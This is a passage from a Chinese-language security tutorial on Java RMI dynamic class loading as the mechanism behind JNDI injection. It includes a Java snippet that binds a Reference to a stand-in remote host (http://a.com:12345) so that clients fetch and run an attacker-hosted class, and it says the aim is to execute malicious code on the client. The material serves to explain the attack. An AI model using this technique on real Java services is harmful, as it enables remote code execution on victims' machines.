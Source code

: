 ### 3. 动态加载类

> JNDI 注入的利用方法中也借助了动态加载类的思路

RMI 核心特点之一就是动态类加载，如果当前 JVM 中没有某个类的定义，它可以从远程 URL 去下载这个类的 class，动态加载的对象 class 文件可以使用 Web 服务的方式进行托管。这可以动态的扩展远程应用的功能，RMI 注册表上可以动态的加载绑定多个 RMI 应用。

对于客户端而言，服务端返回值也可能是一些子类的对象实例，而客户端并没有这些子类的 class 文件，如果需要客户端正确调用这些子类中被重写的方法，则需要有运行时动态加载额外类的能力。

使用了与 RMI 注册表相同的机制，RMI 服务端将 URL 传递给客户端，客户端通过 HTTP/HTTPS 请求下载这些类。

这里涉及到的角色：客户端、RMI 注册表、远程对象服务器、托管 class 文件的 Web 服务器可以分别位于不同的主机上：

![img](./img/4-JNDI/v2-4d7997d41a1a1b86b9199698750d664f_720w.webp)

**根据 Reference 实例动态加载类**

在上文远程对象调用部分知道，客户端获取了远程对象后所执行的此对象的方法，都是由 RMI 服务器来执行的。但是想要利用 RMI 进行攻击，需要控制恶意代码在客户端执行，此时就需要 Reference 类，创建一个对象 Reference 并将其绑定到 RMI 服务器上。例如：

```java
// 假设定义好了registry，见前节
Reference refObj = new Reference("refClassName", "factoryName", "http://a.com:12345");
ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
registry.bind("refObj", refObjWrapper);
```

对于 RMI 服务器而言，向客户端传回一个 Reference 对象和传回其他对象并没有多大区别。

客户端由于获取到了一个 Reference 实例，比如说就是上面代码中的 Reference 实例，接下来客户端就会先在 CLASSPATH 里寻找被标识为 refClassName 的类。如果没找到，它就会去请求http://a.com:12345/refClassName.class 对里面的类进行动态加载，并调用 insClassName 类的构造方法。
